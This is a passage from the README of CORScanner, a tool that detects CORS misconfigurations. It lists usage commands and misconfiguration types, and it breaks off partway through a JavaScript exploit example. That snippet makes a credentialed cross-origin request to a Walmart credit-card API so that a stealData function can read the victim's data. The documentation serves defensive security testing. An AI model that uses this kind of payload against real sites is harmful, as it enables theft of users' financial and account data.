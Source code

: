 * To check CORS misconfigurations of multiple domains/URLs:

``python cors_scan.py -i top_100_domains.txt -t 100``

* To enable proxy for CORScanner, use -p

```python cors_scan.py -u example.com -p http://127.0.0.1:8080```

To use socks5 proxy, install PySocks with `pip install PySocks`

```python cors_scan.py -u example.com -p socks5://127.0.0.1:8080```

* To list all the basic options and switches use -h switch:

```python cors_scan.py -h```

## Misconfiguration types
This tool covers the following misconfiguration types:

Misconfiguration type    | Description
------------------------ | --------------------------
Reflect_any_origin       | Blindly reflect the Origin header value in `Access-Control-Allow-Origin headers` in responses, which means any website can read its secrets by sending cross-orign requests.
Prefix_match             | `wwww.example.com` trusts `example.com.evil.com`, which is an attacker's domain.
Suffix_match             | `wwww.example.com` trusts `evilexample.com`, which could be registered by an attacker.
Not_escape_dot           | `wwww.example.com` trusts `wwwaexample.com`, which could be registered by an attacker.
Substring match          | `wwww.example.com` trusts `example.co`, which could be registered by an attacker.
Trust_null               | `wwww.example.com` trusts `null`, which can be forged by iframe sandbox scripts
HTTPS_trust_HTTP         | Risky trust dependency, a MITM attacker may steal HTTPS site secrets
Trust_any_subdomain      | Risky trust dependency, a subdomain XSS may steal its secrets
Custom_third_parties     | Custom unsafe third parties origins like `github.io`, see more in [origins.json](./origins.json) file. Thanks [@phackt](https://github.com/phackt)!
Special_characters_bypass| Exploiting browsers’ handling of special characters. Most can only work in Safari except `_`, which can also work in Chrome and Firefox. See more in [Advanced CORS Exploitation Techniques](https://www.corben.io/advanced-cors-techniques/). Thanks [@Malayke](https://github.com/Malayke).
  
Welcome to contribute more.  
  
## Exploitation examples
Here is an example about how to exploit "Reflect_any_origin" misconfiguration on Walmart.com(fixed). Localhost is the malicious website in the video.

Walmart.com video on Youtube:

[![Walmart_CORS_misconfiguration_exploitation](https://github.com/chenjj/CORScanner/raw/master/images/walmart.png)](http://www.youtube.com/watch?v=3abaevsSHXY)

Here is the exploitation code:
```javascript
<script>
    // Send a cross origin request to the walmart.com server, when a victim visits the page.
    var req = new XMLHttpRequest();
    req.open('GET',"https://www.walmart.com/account/electrode/account/api/customer/:CID/credit-card",true);
    req.onload = stealData;
    req.withCredentials = true;
    req.send();

    function stealData(){
        //reading response is allowed because of the CORS misconfiguration.
```